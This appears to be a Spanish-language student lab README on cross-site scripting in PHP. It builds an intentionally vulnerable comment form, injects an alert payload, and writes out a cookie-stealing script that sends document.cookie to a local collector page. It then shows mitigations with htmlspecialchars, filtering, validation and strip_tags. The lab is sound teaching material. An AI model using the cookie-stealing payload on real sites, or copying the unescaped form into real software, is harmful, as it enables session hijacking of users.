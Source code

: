 # PPS-Unidad3Actividad5-Aaron

## XSS

### Crear formulario vulnerable

En la carpeta www, crear un fichero commnet.php con este contenido:

```php
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
```
![](imagenes/formulario.png)

### Vulnerar formulario

Insertar en el campo del formulario el siguiente contenido:


```php
<script>alert('XSS ejecutado!')</script>
```

Este bloque de código muestra por pantalla una alerta con el mensaje XSS ejecutado!

![](imagenes/explotado.png)

### Cookie stealer

Crear en el servicio apache del servidor php83 la siguiente estructura de carpetas:

```bash
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
```

Cuando vulneremos el formulario que hemos creado anteriormente en php se registrará en el fichero txt el contenido de la cookie del usuario que ha ejecutado el script:

```php
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
```

![](imagenes/cookie.png)

## Mitigación

### filter_input()

Filtra caracteres problemáticos.

Crea el documento comment1.php con el siguiente contenido:

```php
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

    // Validación
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
```

### htmlspecialchars()

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

Crea un archivo comment2.php con el siguiente contenido

```php
<?php
if (isset($_POST['comment'])) {
	$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
	echo "Comentario publicado: " . $comment;
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
```

![](imagenes/texto.png)

### Validación de entrada

Actualmente, el código permite que el usuario envíe cualquier contenido, incluyendo texto vacío o datos demasiado largos. Puedes agregar validaciones para asegurarte de que el comentario sea adecuado:

Crea un archivo comment3.php con el siguiente contenido:

```php
<?php
//sanitizar comentario
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
} else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500caracteres.";
}
?>

<form method="post">
        <input type="text" name="comment">
        <button type="submit">Enviar</button>
</form>
```

### Protección contra inyecciones

Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si solo se quiere texto sin etiquetas HTML:

```php
$comment = strip_tags($_POST['comment']);
```

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, <b> y <i>), se puede hacer:

```php
$comment = strip_tags($_POST['comment'], '<b><i>');
```
### Protección contra ataques CSRF

Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.


